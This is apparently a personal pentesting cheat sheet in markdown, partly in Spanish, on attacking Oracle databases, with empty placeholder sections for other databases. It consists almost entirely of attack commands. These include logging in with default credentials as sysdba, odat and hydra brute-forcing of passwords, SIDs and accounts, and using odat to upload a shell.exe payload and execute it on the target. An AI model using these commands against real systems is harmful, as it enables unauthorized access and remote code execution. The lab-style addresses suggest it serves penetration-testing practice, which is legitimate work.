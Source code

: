 ```yaml
---
title: databases
category: exploiting
order: 1
---
```



# ORACLE
---
### clii tool
sqlplus64 scott/tiger@10.10.10.10:1521/XE as sysdba

### odat
odat all -s 10.10.10.82 -p 1521
odat passwordguesser --accounts-file /root/tools/SecLists/Passwords/Default-Credentials/oracle-betterdefaultpasslist.txt  -s 10.10.10.82 -p 1521 -d XE

upload file with odat
odat utlfile -s 10.10.10.82 -U scott -P tigger -d XE  --sysdba --putFile c:\windows\temp shell.exe shell.exe

execute file
odat externaltable -s 10.10.10.82 -U scott -P tiger -d XE --sysdba --exec c:/ shell.exe


### hydra
podemos usar hydra para bruteforcear el passowrd del tnslistener si es que tien
./hydra -P rockyou.txt -t 32 -s 1521 host.victim oracle-listener

tmb para bruteforcear SIDs
./hydra -L /usr/share/oscanner/lib/services.txt -s 1521 host.victim oracle-sid

bruteforcear account
./hydra -L /tmp/user.txt -P /tmp/pass.txt -s 1521 host.victim oracle /PLSEXTPROC


### oscanner
oscanner -s 192.168.1.18

### sqlplus
para loguearse a una db remota
sqlplus <username>/<password>@<ip_address>/<SID>;

si tiene sysdba
sqlplus <username>/<password>@<ip_address>/<SID> 'as sysdba';


# MySQL
---

# MSSQL
---

# Postgres
---

# MONGO
---
